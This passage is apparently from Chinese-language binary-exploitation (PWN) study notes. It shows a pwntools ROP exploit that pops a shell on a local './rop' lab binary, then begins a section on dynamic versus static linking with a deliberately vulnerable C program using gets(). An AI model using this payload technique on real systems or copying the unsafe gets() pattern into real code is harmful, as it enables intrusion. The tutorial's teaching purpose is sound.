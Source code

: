 ```py
from pwn import *

eax = 0x080bb196
ecx_ebx = 0x0806eb91
edx = 0x0806eb6a
int_0x80 = 0x08049421
binsh = 0x080be408

payload = flat([b'a' * 112, eax, 0xb, ecx_ebx, 0, binsh, edx, 0, int_0x80])

io = process('./rop')
io.sendline(payload)
io.interactive()
```

8. 执行脚本，完成攻击

> <img src="./img/63.png">

### 动态链接

#### 动态链接与静态链接

假设有以下c语言文件

```c
#include <stdio.h>

int main() {
	char str[100];
	puts("Ki1z's PWN notes");
	gets(str);
	return 0;
}
```

我们编译为两个程序，动态链接程序`dynamic`和静态链接程序`static`

```sh
gcc -no-pie -o dynamic test.c
```
